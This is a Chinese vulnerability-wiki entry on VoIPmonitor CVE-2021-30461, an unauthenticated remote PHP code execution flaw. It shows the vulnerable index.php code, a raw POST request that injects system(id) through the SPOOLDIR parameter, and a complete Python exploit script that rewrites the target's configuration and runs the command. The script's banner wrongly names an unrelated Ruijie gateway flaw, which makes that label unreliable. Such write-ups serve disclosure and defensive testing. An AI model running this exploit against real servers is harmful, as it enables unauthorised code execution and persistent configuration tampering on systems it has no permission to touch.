




# VoIPmonitor 远程命令执行漏洞 CVE-2021-30461

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：文列<24.60，配置文件存在/可写，recheck路径未认证开放；PHP版本影响未加引号常量id解释
- 证据范围：SPOOLDIR写PHP配置后执行链清楚，脚本先改为/tmp再注入，属于持久配置改变

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 脚本banner误写锐捷EG网关cli.php RCE
- system(id)依赖旧PHP常量容错，应说明运行时条件
- 无配置恢复/结果对照，uid=文本判断不是绝对证明
- 应区分开源嗅探器与商业GUI版本

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

VoIPmonitor是“具有在Linux上运行的SIP RTP和RTCP VoIP协议的具有商业前端的开源网络数据包嗅探器”。

使用通过Web界面到达的用户提供的数据，允许未经身份验证的远程用户触发VoIPmonitor中的远程PHP代码执行漏洞。

## 漏洞影响

```
VoIPmonitor < 24.60
```

## 网络测绘

```
"VoIPmonitor"
```

## 漏洞复现

登录页面如下




index.php文件中的关键代码

```php
$setConfigurationTypeValue_rslt = array();
if(file_exists('config/configuration.php')) {
	$existsConfiguration = true;
	if(isset($_POST['recheck'])) {
		if(!empty($_POST['SPOOLDIR'])) {
			setConfigurationTypeValue__index('SPOOLDIR', $_POST['SPOOLDIR']);
		}
	}
```

传入参数 recheck 和 SPOOLDIR， 并将**SPOOLDIR** 写入 **config/configuration.php** 中




发送如下请求包

```http
POST /index.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 49

SPOOLDIR=test%22.system%28id%29.%22&recheck=annen
```




成功执行命令

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 锐捷EG网关 cli.php RCE                                      \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/index.php"
    data = {"SPOOLDIR": "/tmp", "recheck": "annen"}
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False)
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

    POC_2(target_url)

def POC_2(target_url):
    vuln_url = target_url + "/index.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = {"SPOOLDIR": "test\".system(id).\"", "recheck": "annen"}
    print("\033[36m[o] 正在执行命令 id .....\033[0m")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False)
        if "uid=" in response.text:
            print("\033[36m[o] 成功执行 id, 目标存在漏洞.....\033[0m")
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            exit()
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
